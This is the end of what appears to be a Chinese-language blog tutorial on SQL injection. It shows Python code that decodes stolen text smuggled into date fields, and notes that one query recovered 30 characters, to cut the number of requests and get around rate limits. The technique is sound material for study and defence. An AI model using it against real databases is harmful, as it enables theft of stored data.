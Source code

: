 ``` python

  data = json.loads(response.text)
  print(data)
  is_finished = False
  for item in data['events']:
    diff = to_ts(item['end']) - to_ts(item['start'])
    diff = int(diff/86400)
    is_finished = False
    if diff == 0:
      is_finished = True
      break

    count = 0
    while diff > 0:
      num = diff % 128
      if num == 0:
        is_finished = True
        break
      count+=1
      result += chr(num)
      diff = int((diff - num) / 128)

    if count != fetch_per_union:
      is_finished = True
      break

    if is_finished:
      break
    print("current:", result)

  if is_finished:
    break

print("result:", result)
print(f"time: {time.time() - start}s")
```

執行結果會長這樣，可以看到每一筆資料的 end 都攜帶了 3 個字元的資訊在裡面：

![](/img/sql-injection-in-action/p8.png)

這次只用了 1 個 query，總共花了 4 秒，就得到了 30 個字元，大多數時間其實都是花在 SQL 對於 query 的處理。

## 結語

所有範例程式碼都在這邊：https://github.com/aszx87410/demo/tree/master/sql-injection

雖然說大部分狀況可能用多執行緒就可以搞定了，但要考慮到有些 Server 可能有 rate limiting，沒辦法送這麼多 request。撇開繞過 rate limiting 不談，我認為如何讓一個 query 傳回最大的資訊量，並且減少 request 的數量這件事情滿有趣的，因此才有了這篇文章還有各式各樣的方法。

第一個案例中最後是用了三分搜降低 request 數量，第二個案例則是用了把字串轉成數字的方式，將資料偷渡到日期裡，並用多個日期來偷渡更多的字元。
